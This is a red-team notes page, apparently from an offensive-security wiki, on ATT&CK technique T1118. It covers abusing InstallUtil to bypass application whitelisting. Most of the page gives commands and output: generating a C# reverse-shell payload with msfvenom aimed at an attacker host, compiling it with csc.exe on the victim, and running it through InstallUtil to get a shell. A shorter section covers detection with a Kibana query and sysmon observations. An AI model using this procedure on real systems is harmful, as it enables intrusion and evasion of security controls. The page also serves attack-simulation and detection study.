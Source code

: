 ```yaml
---
description: InstallUtil code execution - bypass application whitelisting.
---
```


# T1118: InstallUtil

## Execution

First of, generate a C\# payload \(with [InstallUtil script](https://github.com/khr0x40sh/WhiteListEvasion)\) that contains shellcode from msfvenom and upload the temp.cs file to victim's machine:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```python
python InstallUtil.py --cs_file temp.cs --exe_file temp.exe --payload windowsreverse_shell_tcp --lhost 10.0.0.5 --lport 443
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Compile the .cs to an .exe:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\csc.exe C:\experiments\installUtil\temp.cs
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Execute the payload:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Microsoft.NET\Framework\v4.0.30319\temp.exe
Microsoft (R) .NET Framework Installation utility Version 4.0.30319.17929
Copyright (C) Microsoft Corporation.  All rights reserved.

Hello From Uninstall...I carry out the real work...
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Enjoy the sweet reverse shell:

![](../.gitbook/assets/installutil-shell.png)

## Observations

Look for `InstallUtil` processes that have established connections, especially those with cmd or powershell processes running as children - you should treat them as suspicious and investigate the endpoint closer:

![](../.gitbook/assets/installutil-procexp.png)

A very primitive query in kibana allowing to find events where InstallUtil spawns cmd:

{% code-tabs %}
{% code-tabs-item title="kibana" %}
```text
event_data.ParentCommandLine:"*installutil.exe*" && event_data.Image:cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![InstallUtil launching the malicious payload](../.gitbook/assets/installutil-kibana.png)

![csc.exe created a temp.exe which contains the reverse shell payload](../.gitbook/assets/installutils-csc.png)

What is interesting is that I could not see an established network connection logged in sysmon logs, although I could see other network connections from the victim machine being logged.

{% hint style="danger" %}
Will be coming back to this one for further inspection. Need to review the sysmon configuration.
{% endhint %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1118\",\"type\":\"link\",\"title\":\"InstallUtil - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://github.com/khr0x40sh/WhiteListEvasion\",\"type\":\"link\",\"title\":\"khr0x40sh/WhiteListEvasion\",\"description\":\"WhiteListEvasion - Collection of scripts, binaries and the like to aid in WhiteList Evasion on a Microsoft Windows Network.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://github.com/fluidicon.png\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://avatars1.githubusercontent.com/u/6656699?s=400&v=4\",\"width\":400,\"height\":400,\"aspectRatio\":1}}" %}

